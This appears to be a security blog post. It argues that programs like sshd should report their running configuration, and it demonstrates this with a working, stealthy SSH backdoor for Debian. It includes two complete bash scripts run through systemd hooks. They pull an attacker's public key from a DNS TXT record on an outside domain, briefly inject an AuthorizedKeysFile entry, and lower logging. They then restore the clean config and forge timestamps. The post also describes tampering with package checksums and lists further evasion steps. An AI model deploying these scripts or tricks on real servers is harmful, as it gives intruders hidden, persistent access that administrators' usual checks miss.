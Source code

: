 ```yaml
---
layout: post
title: "Everything that uses configurations should report the values they are using (or: achieving persistence with a hidden SSH backdoor)"
author: "Joshua Rogers"
categories: security
---
```


Configuration parsing is an interesting topic I have been working on in the context of my hacking and creating simple backdoors which are hidden from your average sysadmin.

A recent post titled [Everything that uses configuration files should report where they're located](https://utcc.utoronto.ca/~cks/space/blog/sysadmin/ReportConfigFileLocations) piqued my interest, as it related to the unique ways that configuration files are located, prioritized, and eventually parsed. The original post argued that programs should output the location that configuration files are parsed. I concur, and also believe that programs should report their _configurations_ as they are running. This post, among some information about `sshd`, outlines why.

As pointed out in the comments of [a HN post](https://news.ycombinator.com/item?id=36465886), parsing of configuration files generally take a "last occurrence wins" strategy -- if the same configuration option is specified multiple times, the final one takes preference (assuming the option cannot be specified multiple times). However, some programs, like `sshd` take the opposite approach: the _first_ occurrence wins. From `man sshd(8)`:
```
Unless noted otherwise, for each keyword, the first obtained value will be used.
```

_sshd_ also offers functionality to check the configuration _file_:

```
     -T      Extended test mode.  Check the validity of the configuration file, output the effective configuration to stdout and then exit.  Optionally, Match rules may be applied by specifying the connection parameters using one or more -C options.

     -t      Test mode.  Only check the validity of the configuration file and sanity of the keys.  This is useful for updating sshd reliably as configuration options may change.
```
One of the gotchas here is that this test (as it _is_ written) parses the configuration file as it exists; it does _not_ print the current configuration of a running _sshd_ daemon.

In the context of hacking, this is particularly useful, as it is possible to load a malicious `sshd_config` file, reload `sshd`, and then overwrite the malicious configuration file with an innocent-looking version. Your average sysadmin which may look at the `sshd_config` file or run `sshd -T` to check the configuration will be none-the-wiser to the actual configuration options used.

I recently made use of this functionality to create a minimalist ssh backdoor on Debian, achieving persistence quite easily. Using two scripts and updating systemd\'s `ssh.service` file to run the scripts before and after `sshd` starts, persistence using ssh is gained on the server. (Note: I also altered `/var/lib/dpkg/info/openssh-server.md5sums` to state the new ssh.service has the correct checksum.)

The first script has the following functionality:
1. Determine the proper `authorizedkeysfile` value.
2. Create the folder `/etc/calendar/` if it does not already exist, copying the access and modifications times of the `/etc/` folder.
3. Retrieve an SSH public key from the TXT record of `$(hostname).joshua.hu` and save it to `/etc/calendar/root`.
4. Copies the proper sshd configuration file to a temporary file.
5. Overwrites the original sshd configuration file with an `authorizedkeysfile`  option, which contains both the proper value as well as the `/etc/calendar/root` location (ensuring that this malicious `authorizedkeysfile` option is loaded first).
6. Appends the `loglevel` configuration to  the configuration file (ensuring it is loaded first).
7. Appends the original sshd configuration file from the temporary file, to the new sshd configuration file.

```bash
#!/bin/bash
keysfile=`/usr/sbin/sshd -T | awk -F authorizedkeysfile '/authorizedkeysfile/ {print $NF}'` || keysfile=".ssh/authorized_keys"

if [ ! -d "/etc/calendar/" ]; then
    mkdir /etc/calendar/
    touch -r /etc/ /etc/calendar/
fi

dig +short TXT $(hostname).joshua.hu | sed 's/\x22//g' > /etc/calendar/root

cp /etc/ssh/sshd_config /etc/ssh/sshd_config.bak

echo "AuthorizedKeysFile /etc/calendar/root ${keysfile}" > /etc/ssh/sshd_config
echo "LogLevel ERROR" >> /etc/ssh/sshd_config
cat /etc/ssh/sshd_config.bak >> /etc/ssh/sshd_config
exit 0
```

This script is run when sshd is (re)started, _before_ the sshd binary itself is executed, using the `ExecStartPre` systemd directive.

The second script, which is executed _after_ the sshd binary is running (using the `ExecStartPost` systemd directive) simply moves the original sshd configuration file back to its original location.

```bash
#!/bin/bash
mv /etc/ssh/sshd_config.bak /etc/ssh/sshd_config
touch -r /etc/ /etc/ssh/sshd_config
exit 0
```

The key which exists in `/etc/calendar/root` will now be accepted for all users on the server. A sysadmin looking at the `/etc/ssh/sshd_config` file will see nothing spectacular, and `sshd -T` will not report the in-memory configuration. Of course, if the sysadmin looks at the ssh.service file, they will see it has been altered (and which will be overwritten when `openssh-server` updates).

Things get a bit more interesting when it comes to to `sshd`. `sshd_config` in Debian 11+ and Ubuntu 20.04+ "[sets several options as standard in /etc/ssh/sshd_config which are not the default](https://manpages.debian.org/bullseye/openssh-server/sshd_config.5.en.html)". Namely, `Include /etc/ssh/sshd_config.d/*.conf`. This is the first actionable configuration in `/etc/ssh/sshd_config` on Debian 11 and Ubuntu 20.04.

Therefore, instead of editing `/etc/ssh/sshd_config`, it is possible to simply create a file ending in `.conf` in `/etc/ssh/sshd_config.d/` and restart `sshd`, and then delete the file.

What's even more fun is that when `sshd` is reloaded, current connections do not acquire the new configuration. For multiplexed SSH connections, this means you may even hide your connection using an old configuration.

Is this what the DoD meant by [living off the land](https://media.defense.gov/2023/May/24/2003229517/-1/-1/0/CSA_Living_off_the_Land.PDF)? By knowing how programs use configuration files and abusing their functionality for exploitation?

A more persistent threat would:
1. Use something like [shc](https://github.com/neurobin/shc) to convert these scripts into binaries,
2. Use some type of encryption/encoding for the retrieval of the public key (versus plaintext over DNS),
3. Set the `ctime` of the files using a [basic trick](https://unix.stackexchange.com/a/557160),
4. Use an alternative to altering the `ssh.service` systemd file (for example some type of service that monitors for when `sshd` starts/reloads and performs the necessary changes at the appropriate times, independent of systemd.) 
